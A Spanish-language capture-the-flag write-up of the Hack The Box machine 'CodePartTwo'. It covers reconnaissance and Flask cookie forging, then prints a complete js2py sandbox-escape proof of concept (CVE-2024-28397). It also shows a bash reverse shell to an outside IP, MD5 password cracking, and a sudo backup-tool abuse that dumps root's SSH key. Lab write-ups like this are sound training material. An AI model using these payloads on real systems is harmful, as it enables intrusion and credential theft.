# CodePartTwo

**Dificultad:** Easy  
**SO:** Linux  

## Metodología

### Reconocimiento inicial

#### Reconocimiento del SO y puertos con NMAP
Comprobamos que es una maquina linux por el ttl ~ 64.
Reconocimiento inicial con nmap.

```bash
ping -c 4 10.10.11.82
nmap -sS -p- --min-rate 5000 10.10.11.82 -oG allCodePartTwo
nmap -sCV -p 22,80 -n -nP 10.10.11.82 -oA sondeoCodePartTwo
```





#### Actualizar /etc/hosts (actúa como dns local)
Asociamos el nombre del host (codeparttwo.htb) con su dirección IP (10.10.11.82).

```bash
nano /etc/hosts
```



### Reconocimiento web

#### Análisis con Wappalyzer

Permite identificar las `tecnologías` que se utilizan en esta `web`.



#### Enumeración de subdirectorios con Gobuster

```bash
gobuster dir -u http://codeparttwo.htb:8000/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 200
```



#### Registro y Login

Una vez registrado, se observa un dashboard donde `podemos crear, guardar y lanzar` nuestros scripts en `JS`:



#### Descarga de la app

Desde el path http://codeparttwo.htb/download se puede descargar el `fichero app.zip`.



La app tiene una base de datos `users.db vacía`, aun así se puede ver el `esquema` de cada tabla.



Además podemos ver el fichero `app.py` que en realidad es el código de la aplicación web en `Flask` que corre en el `Gunicorn`.

#### Inyectando cookies

En este fichero se encuentra la `app.secret_key = 'S3cr3tK3yC0d3PartTw0'` que firma las cookies de sesión, por lo que intenté `inyectar la cookie del usuario admin` (suponiendo que existiera) para ver sus `code snippets`. Lo primero es decodificar mi cookie de sesión actual:

```bash
flask-unsign --secret 'S3cr3tK3yC0d3PartTw0' --unsign --cookie 'eyJ1c2VyX2lkIjozLCJ1c2VybmFtZSI6Im14c2t5In0.aLmNrw.rA-ENeohmwVx9JYNgBc1l22iNvo'
```





Si yo soy el `'user_id': 3`, entonces (en caso de existir) la cuenta de `admin` deberia tener `'user_id': 1 o 2`.
El siguiente fragmento de código genera las cookies firmadas:

```python
from flask.sessions import SecureCookieSessionInterface
from flask import Flask

sesion_1 = {'user_id': 1, 'username': 'admin'}
sesion_2 = {'user_id': 2, 'username': 'admin'}

app = Flask(__name__)
app.secret_key = 'S3cr3tK3yC0d3PartTw0'

s = SecureCookieSessionInterface().get_signing_serializer(app)
cookie_1 = s.dumps(sesion_1)
cookie_2 = s.dumps(sesion_2)

print(cookie_1)
print(cookie_2)
```



Al inyectar la nueva cookie de admin obtengo un error, por lo que toca mirar otros vectores.



[Flask default session interface](https://flask.palletsprojects.com/en/stable/api/#:~:text=class%20flask.sessions.SecureCookieSessionInterface)
[Flask Unsign](https://github.com/Paradoxis/Flask-Unsign)

#### CVE-2024-28397 - Sandbox Escape en js2py

En el fichero `app/requirements.txt` se observa que funciona con `js2py 0.74`. En esta versión, existe una vulnerabiliad en la implementación de una variable global dentro de js2py, permitiendo a un atacante obtener la referencia a un objeto Python en el entorno js2py, lo que permite `escapar del entorno JS y ejecutar comandos arbitrarios` en el host. Destacar que `evade la restricción de js2py.disble_pyimport()`, utilizada para impedir que el código JS escape del entorno.

PoC:

```javascript
let cmd = "head -n 1 /etc/passwd; calc; gnome-calculator;"
let hacked, bymarve, n11
let getattr, obj

hacked = Object.getOwnPropertyNames({})
bymarve = hacked.__getattribute__
n11 = bymarve("__getattribute__")
obj = n11("__class__").__base__
getattr = obj.__getattribute__

function findpopen(o) {
    let result;
    for(let i in o.__subclasses__()) {
        let item = o.__subclasses__()[i]
        if(item.__module__ == "subprocess" && item.__name__ == "Popen") {
            return item
        }
        if(item.__name__ != "type" && (result = findpopen(item))) {
            return result
        }
    }
}

n11 = findpopen(obj)(cmd, -1, null, -1, -1, -1, null, null, true).communicate()
console.log(n11)
function f() {
    return n11
}
```

[Marven CVE-2024-28397](https://github.com/Marven11/CVE-2024-28397-js2py-Sandbox-Escape)

#### Reverse shell

Modifico un poco el `payload` para que ejecute una `reverse shell` y obtengo acceso como `app`.

```javascript
let cmd = "bash -c 'bash -i >& /dev/tcp/10.10.16.22/1337 0>&1'"
```



#### Tratamiento de la TTY

```bash
script /dev/null -c bash
CTRL + Z
stty raw -echo; fg
reset xterm
export SHELL=bash
export TERM=xterm
stty rows 40 columns 184
```

### Post-Explotación

Al cononcer la estructura de directorios de la app, me paso la `users.db` para ver lo que tiene (`no existía ningún usuario admin` xd) y obtengo el usuario `marco` con el hash `649c9d65a206a75f5abe509fe128bce5`.



#### Tipo de Hash

La herramienta `hash-identifier` dice que tiene to la pinta de `MD5`.

```bash
hash-identifier 649c9d65a206a75f5abe509fe128bce5
```



#### Hashcat

Lanzo `hashcat` en modo `MD5` para crackearlo por `diccionario`.

```bash
echo '649c9d65a206a75f5abe509fe128bce5' > marco_hash.txt
hashcat -m 0 marco_hash.txt /usr/share/wordlists/rockyou.txt
hashcat -m 0 --show marco_hash.txt
```

Obteniendo las credenciales para `marco:sweetangelbabylove`.



#### SSH

Nos conectamos por `SSH` con el usuario `marco`.

```bash
ssh marco@10.10.11.82
```




#### Escalada a root

El usuario marco puede ejecutar un comando de `backup` como root `(ALL : ALL) NOPASSWD: /usr/local/bin/npbackup-cli`. Además, en la ayuda de la herramienta se puede ver su funcionamiento.



Básicamente `carga un fichero de configuración` (marco tiene uno con permisos de lectura y escritura en su /home) y ejecuta lo que le pases por `parámetros`.



Modificando este fichero de configuración puedo `apuntar a /root` en el PATH.
Por otro lado, se puede ver que la única backup hecha es del PATH = `/home/app/app`, asi que fuerzo el `backup con la nueva configuración`.

```bash
sudo /usr/local/bin/np-backup-cli -c /tmp/mybackup.conf -b -f
```




Ahora vuelvo a listar los snapshots realizados, selecciono el que he hecho y me `dumpeo la id_rsa de root` (chmod 600) para conectarme por `SSH`.

```bash
sudo /usr/local/bin/npbackup-cli -c /tmp/mybackup.conf -s
sudo /usr/local/bin/npbackup-cli -c /tmp/mybackup.conf --snapshot-id 11586cfb --dump /root/.ssh/id_rsa
ssh -i /tmp/my_rsa root@10.10.11.82
```




### Limpieza del entorno
Una vez terminada la máquina, toca limpiar todos los archivos creados para mantener el entorno limpio.

